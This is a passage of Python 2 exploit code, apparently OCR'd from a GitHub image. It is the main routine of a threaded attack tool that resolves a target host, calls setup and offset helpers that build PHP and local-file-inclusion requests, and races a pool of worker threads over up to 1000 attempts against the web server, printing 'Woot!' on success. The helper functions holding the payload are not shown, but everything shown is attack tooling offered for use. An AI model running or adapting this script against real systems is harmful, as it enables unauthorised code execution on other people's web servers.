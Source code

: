 ```python
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
```